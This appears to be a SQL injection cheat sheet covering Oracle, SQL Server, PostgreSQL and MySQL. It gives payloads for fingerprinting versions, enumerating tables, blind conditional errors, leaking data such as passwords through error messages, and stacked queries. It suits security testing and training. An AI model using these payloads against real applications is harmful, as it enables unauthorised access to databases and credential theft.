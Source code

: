 Identify database type and version:

- **Oracle:**
    - `SELECT banner FROM v$version`
    - `SELECT version FROM v$instance`
- **Microsoft:** `SELECT @@version`
- **PostgreSQL:** `SELECT version()`
- **MySQL:** `SELECT @@version`

### Database Contents

List tables and columns:

- **Oracle:**
    - `SELECT * FROM all_tables`
    - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- **Microsoft:**
    - `SELECT * FROM information_schema.tables`
    - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- **PostgreSQL:**
    - `SELECT * FROM information_schema.tables`
    - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- **MySQL:**
    - `SELECT * FROM information_schema.tables`
    - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

### Conditional Errors

Test a condition and trigger an error if true:

- **Oracle:** `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
- **Microsoft:** `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- **PostgreSQL:** `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
- **MySQL:** `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

### Extracting Data via Visible Errors

Elicit error messages that leak data:

- **Microsoft:** `SELECT 'foo' WHERE 1 = (SELECT 'secret')`
    - *Error:* Conversion failed when converting the varchar value 'secret' to data type int.
- **PostgreSQL:** `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`
    - *Error:* invalid input syntax for integer: "secret"
- **MySQL:** `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`
    - *Error:* XPATH syntax error: '\secret'

### Batched (Stacked) Queries

Execute multiple queries in succession (results not returned):

- **Oracle:** Not supported.
- **Microsoft:** `QUERY-1-HERE; QUERY-2-HERE`
- **PostgreSQL:** `QUERY-1-HERE; QUERY-2-HERE`
- **MySQL:** `QUERY-1-HERE; QUERY-2-HERE`
    - Note: Limited support; depends on specific APIs used by the application.
